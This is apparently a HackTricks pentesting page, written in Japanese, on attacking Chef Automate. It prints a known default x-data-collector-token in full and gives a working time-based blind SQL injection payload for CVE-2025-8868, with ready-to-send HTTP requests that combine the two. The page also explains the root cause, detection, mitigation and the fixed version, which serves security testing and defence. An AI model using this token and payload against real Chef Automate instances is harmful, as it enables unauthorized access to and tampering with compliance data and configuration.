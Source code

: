 # Chef Automate 列挙と攻撃

{{#include ../../banners/hacktricks-training.md}}

## 概要

このページは Chef Automate インスタンスを列挙して攻撃するための実践的な手法を集めたもので、以下に重点を置いています：
- gRPC-Gateway-backed REST endpoints を発見し、validation/error responses を通じてリクエストスキーマを推測すること
- デフォルトが残っている場合に x-data-collector-token 認証ヘッダを悪用すること
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) が /api/v0/compliance/profiles/search の filters[].type フィールドに影響する件

> 注: バックエンド応答に header grpc-metadata-content-type: application/grpc が含まれる場合、通常は REST 呼び出しを gRPC サービスにブリッジする gRPC-Gateway を示します。

## Recon: アーキテクチャとフィンガープリント

- Front-end: 多くの場合 Angular。Static bundles は REST パス（例: /api/v0/...）のヒントになることがある
- API transport: REST から gRPC への gRPC-Gateway 経由
- 応答に grpc-metadata-content-type: application/grpc が含まれることがある
- データベース/ドライバのフィンガープリント:
- pq: で始まるエラーボディは、Go の pq ドライバを使った PostgreSQL を強く示唆する
- 注目すべき Compliance endpoints (認証必要):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## 認証: Data Collector Token (x-data-collector-token)

Chef Automate は専用ヘッダでリクエストを認証する data collector を公開しています:

- Header: x-data-collector-token
- リスク: 一部の環境では保護された API ルートへのアクセスを許すデフォルトトークンが残っている場合があります。実際に観測された既知のデフォルト:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

存在する場合、このトークンを使って本来認証で保護されている Compliance API endpoints を呼び出すことができます。ハードニング時には常にデフォルトのローテーション/無効化を試みてください。

## API スキーマ推定（Error-Driven Discovery による）

gRPC-Gateway-backed endpoints は期待されるリクエストモデルを説明する有用な検証エラーをしばしば leak します。

/api/v0/compliance/profiles/search において、バックエンドは filters 配列を含むボディを期待しており、各要素は次のフィールドを持つオブジェクトです:

- type: string (filter field identifier)
- values: array of strings

例のリクエスト形式:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
不正なJSONやフィールド型の誤りは通常、ヒントを含む4xx/5xxを引き起こし、ヘッダーはgRPC-Gatewayの動作を示します。これらを使ってフィールドをマッピングし、注入箇所を特定してください。

## コンプライアンスAPI SQL Injection (CVE-2025-8868)

- 影響を受けるエンドポイント: POST /api/v0/compliance/profiles/search
- 注入箇所: filters[].type
- 脆弱性クラス: time-based blind SQL injection in PostgreSQL
- 根本原因: typeフィールドを動的なSQLフラグメントに挿入する際に、適切なparameterization/whitelistingが行われていないこと（おそらくidentifiers/WHERE clausesの構築に使用）。typeに仕込んだ値がPostgreSQLによって評価されます。

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- 元の文字列をシングルクォート(')で閉じる
- pg_sleep(N) を呼び出すサブクエリを連結する
- || を使って文字列コンテキストに戻し、最終的な SQL が、type が埋め込まれる位置に関係なく構文的に有効であるようにする

### 差分レイテンシによる証明

ペアのリクエストを送信し、応答時間を比較してサーバー側での実行を検証する：

- N = 1秒
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 秒
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- 応答時間が pg_sleep(N) に比例して増加する
- プロービング中に HTTP 500 応答に pq: 付きの詳細が含まれることがあり、SQL 実行経路が確認できる

> ヒント: ノイズと誤検知を減らすため、タイミング検証器（例: 統計的比較を伴う複数試行）を使用する

### 影響

認証済みユーザ—あるいはデフォルトの x-data-collector-token を悪用する未認証のアクター—が Chef Automate の PostgreSQL コンテキスト内で任意の SQL を実行できる可能性があり、compliance profiles、設定、およびテレメトリの機密性と完全性が危険にさらされる。

### 影響を受けるバージョン / 修正

- CVE: CVE-2025-8868
- アップグレード案内: ベンダーのアドバイザリに従い、Chef Automate 4.13.295 以降 (Linux x86) に更新すること

## 検知とフォレンジクス

- API 層:
- /api/v0/compliance/profiles/search 上で 500 を監視する。filters[].type が引用符 ('), 連結 (||) または pg_sleep のような関数参照を含む場合に注視する
- レスポンスヘッダの grpc-metadata-content-type を検査し、gRPC-Gateway フローを識別する
- データベース層 (PostgreSQL):
- pg_sleep 呼び出しや malformed identifier エラーを監査する（Go の pq ドライバ由来の pq: プレフィックスで表出することが多い）
- 認証:
- API パス全体での x-data-collector-token の使用をログおよびアラート化する。特に既知のデフォルト値の使用には注意する

## 軽減策と強化

- 即時対応:
- デフォルトの x-data-collector-token をローテーションまたは無効化する
- data collector エンドポイントへのインバウンドを制限し、強力かつユニークなトークンを強制する
- コードレベル:
- クエリをパラメータ化する。SQL フラグメントを文字列連結してはならない
- サーバ側で許可される type 値を厳格にホワイトリスト化する (enum)
- 識別子や句に対する動的な SQL 組み立てを避ける。動的動作が必要な場合は、安全な識別子の引用と明示的なホワイトリストを使用する

## 実践的なテストチェックリスト

- x-data-collector-token が受け入れられるか、既知のデフォルトが機能するかを確認する
- 検証エラーを誘発してエラーメッセージやヘッダを読み取り、Compliance API のリクエストスキーマをマップする
- SQLi を、values 配列やトップレベルのテキストフィールドだけでなく、より目立たない「識別子のような」フィールド（例: filters[].type）でもテストする
- 文脈に応じて SQL を構文的に有効に保つため、連結を用いた time-based techniques を使用する

## 参考資料

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
